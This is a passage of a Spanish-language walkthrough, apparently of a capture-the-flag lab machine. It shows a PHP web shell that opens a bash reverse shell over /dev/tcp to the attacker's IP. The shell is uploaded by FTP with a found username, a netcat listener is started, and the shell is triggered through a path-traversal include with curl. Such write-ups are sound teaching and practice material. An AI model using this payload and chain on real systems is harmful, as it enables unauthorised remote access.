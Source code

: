 Vamos a traernos el archivo que dice `notes`

```bash
❯ catnp notes
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: notes
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Please do not delete the /var/www/html/deployment/production/ directory - Megumin the hacker
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Nos estan dando una ruta vamos a subir un archivo `.php` para enviarnos una reverse shell

```php
❯ /bin/cat shell.php
<?php
    system("bash -c 'bash -i >& /dev/tcp/192.168.1.77/443 0>&1'")
?>
```

Ahora lo subimos y si todo va bien deberia de funcionar

```bash
❯ ftp 192.168.1.84
Connected to 192.168.1.84.
220 (vsFTPd 3.0.3)
Name (192.168.1.84:root): megumin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd production
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
75 bytes sent in 0.00 secs (1.2123 MB/s)
ftp> 
```

```bash
❯ netcat -lvnp 443
listening on [any] 443 ...
```

```bash
❯ curl "192.168.1.84/home.php?showcase=../deployment/production/shell.php" -b PHPSESSID=d8sqe0re1if74iduiru30raju3
```
